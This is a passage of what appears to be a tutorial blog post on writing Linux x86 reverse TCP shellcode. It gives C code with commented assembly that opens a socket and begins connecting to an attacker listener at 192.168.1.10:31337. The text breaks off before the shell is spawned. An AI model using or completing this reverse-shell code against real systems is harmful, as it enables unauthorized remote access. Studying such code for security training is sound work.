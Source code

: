 ## Reverse TCP Bind Shellcode

A Linux x86 assembly language program to enable a reverse tcp connection to bind to a shell on a remote host. In a reverse connection the compromised system will run the shellcode which in turn will attempt to connect to an attackers system which is listening for said connection.

To build anything you normally need a foundation, this one being a working C language program that will do what is required. From this code it is possible to then work backwards, refining and optimising the code on the way. Comments are added to enable more complete cross referencing while reading between the differing code implementations, though the code should be fairly self explanatory. The assembly language snippets where taken, and altered slightly, from a disassembly of the binary using objdump, e.g.

*$ objdump -d reversetcpbindshellc -M intel*

Output has not been reproduced due to length and the usefulness of wasting blog space.

Note:
Socket code is among the most standard of code to be found on the internet and it seldom differs, I would be loathe to claim all code in this post as my own as it is based off research and examples found in places too numerous to mention, my feet are most defintely planted on the shoulders of giants.
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
 
int
main(void) 
{
    int sockfd;  
    struct sockaddr_in attacker_addr;   
    socklen_t sinsize;
     
    /*
    push ecx        ; push null
    push byte 0x6   ; push IPPROTO_TCP value
    push byte 0x1   ; push SOCK_STREAM value
    push byte 0x2   ; push AF_INET
    mov ecx, esp    ; ecx contains pointer to socket() args
    int 0x80        ; make the call, eax contains sockfd                       
    mov esi, eax    ; esi now contains sockfd
    */
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
    /*
    mov bl, 0x02    ; preparation for AF_INET
    push dword 0x0a01a8c0 ; (192.168.1.10)
    push word 0x697a ; port number 31337
    push word bx    ; push AF_INET
    inc bl          ; connect()
    mov ecx, esp    ; ecx contains pointer to sockaddr struct
    push byte 0x10  ; push socklen_t addrlen
    push ecx        ; push const struct sockaddr *addr
    push esi        ; push socket file descriptor
    mov ecx, esp    ; ecx contains pointer to connect() args
    int 0x80
    */
    attacker_addr.sin_family = AF_INET;
```